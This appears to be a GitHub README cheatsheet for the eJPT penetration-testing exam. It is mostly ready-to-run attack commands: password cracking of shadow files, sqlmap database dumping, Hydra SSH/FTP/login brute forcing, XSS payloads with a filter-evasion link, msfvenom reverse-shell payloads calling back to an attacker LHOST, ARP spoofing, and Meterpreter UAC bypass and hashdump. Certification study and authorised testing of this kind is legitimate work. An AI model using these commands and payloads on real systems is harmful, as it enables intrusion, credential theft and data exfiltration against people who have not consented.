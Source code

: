# eJPT-Cheatsheet
This is a Cheatsheet for eJPT Exam & Course.

## Nmap
```sh
nmap -sn 10.10.10.0/24\                              #Host Discover
nmap -sV -p- -iL targets -oN nmap.initial -v\ 
nmap -A -p- -iL targets -oN nmap.aggressive -v\
nmap -p<port> --script=vuln -v <target-IP>           #Vulnerabillity Assessment
```
## fPing
```sh
fping -a -g 10.10.10.0/24 2>/dev/null > targets       #Host Discover
``` 
## IP Route
**Syntax**\
ip route add \<Network-range\> via \<router-IP\> dev \<interface\>
```sh
ip route add 10.10.10.0/24 via 10.10.11.1 dev tap0

ip route    # Checking defined routes in linux
route       # Checking defined routes in linux
route print     # Checking defined routes in windows
```
## John
```sh
john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5\
unshadow passwd shadow > unshadowed.txt\
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```
## dirbuster

![alt text](https://github.com/SattamInfosec/SattamInfosec/blob/main/Dirbuster.PNG)


## Gobuster 
```sh
gobuster dir -u http://example.com -w /usr/usr/wordlists/dirb/common.txt 

gobuster dir -u http://example.com -w /usr/usr/wordlists/dirb/common.txt -s 302
```


## Netcat
**Listening for reverse shell**\
```sh
nc -nvlp 1234
```
**Banner Grabbing**\
```sh
nc -nv 10.10.10.10 \<port\>
```
## SQLMap
#### Check if injection exists
```sh
sqlmap -r Post.req
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin"
```
#### Get database if injection Exists
```sh
sqlmap -r login.req --dbs
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id --dbs
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" --dbs
```
#### Get Tables in a Database
```sh
sqlmap -r login.req -D dbname --tables
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname --tables
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname --tables
```
#### Get data in a Database tables
```sh
sqlmap -r login.req -D dbname -T table_name --dump
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname -T table_name --dump
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname -T table_name --dump
```

## Hydra
**SSH & FTP Login Bruteforcing**\
```sh
hydra -L userslist -P passwordslist ftp://10.10.10.10
hydra -l root -P passwordslist ssh://10.10.10.10 
hydra -L userlist -p password123 ftp://10.10.10.10
```sh

**HTTP POST Form**\
```sh
hydra http://10.10.10.10/ http-post-form "/login.php:user=^USER^&password=^PASS^:Incorrect credentials" -L usernames.txt -P passwords.txt -f -V
```

*You will know which wordlists to use when the time comes*


## XSS
```sh
\<script\>alert(1)\</script\>
\<ScRiPt\>alert(1)\</ScRiPt\>
\<script\>alert('XSS')\</script\>\
\<ScRiPt\>alert('XSS')\</ScRiPt\>
```
*This is a great filter bypass cheatsheet*\
https://owasp.org/www-community/xss-filter-evasion-cheatsheet

## XSS via GET & POST Request

![alt text](https://raw.githubusercontent.com/SattamInfosec/SattamInfosec/main/XSS%20Via%20GET%20%26%20POST.PNG)

## msfvenom shells
**JSP Java Meterpreter Reverse TCP**\
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp

**WAR**\
```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war
```
**PHP**\
```sh
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php\
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
## Metasploit Meterpreter autoroute
```sh
run autoroute -s 10.10.10.0/24
```
## ARPSpoof
```sh
echo 1 > /proc/sys/net/ipv4/ip_forward\
arpspoof -i <interface> -t <target> -r <host>\
arpspoof -i tap0 -t 10.100.13.37 -r 10.100.13.36
```sh
## SMB Enumeration
**Get shares, users, groups, password policy**\
```sh
smbclient -L //10.10.10.10/
enum4linux -U -M -S -P -G 10.10.10.10
nmap --script=smb-enum-users,smb-os-discovery,smb-enum-shares,smb-enum-groups,smb-enum-domains 10.10.10.10 -p 135,139,445 
nmap -p445 --script=smb-vuln-* 10.10.10.10 
```
**Access Share**\
```sh
smbclient //10.10.10.10/share_name
```
## FTP Enumeration
```sh
nmap --script=ftp-anon 10.10.10.10 -p21 
nmap -A -p21 10.10.10.10 
```

**Login to FTP server**\
```sh
ftp 10.10.10.10
```
## FTP Server Commands
```sh
get filename               #to Receive file
put filename               #to upload file 
cd /../..                  #to Change remote working directory
ls /..                     #to List contents of remote directory
```
## Meterpreter
```sh
ps
getuid
getpid
getsystem
ps -U SYSTEM
```
**CHECK UAC/Privileges**\
```sh
run post/windows/gather/win_privs
```
**BYPASS UAC**\
*Background the session first*
```sh
exploit/windows/local/bypassuac
set session
```
**After PrivEsc**\
```sh
migrate \<pid\>
hashdump          #to extract Users & Password's hash
``` 
## Windows Command Line
**To search for a file starting from current directory**\
```sh
cd 
dir /b/s "\*.conf\*"
dir /b/s "\*.txt\*"
dir /b/s "\*filename\*"
```

**Check Users**\
```sh
net users         #Users
net account       #Password age 
```

**List drives on the machine**\
```sh
fsutil fsinfo drives     #windows 
lsblk -l                #Linux
```



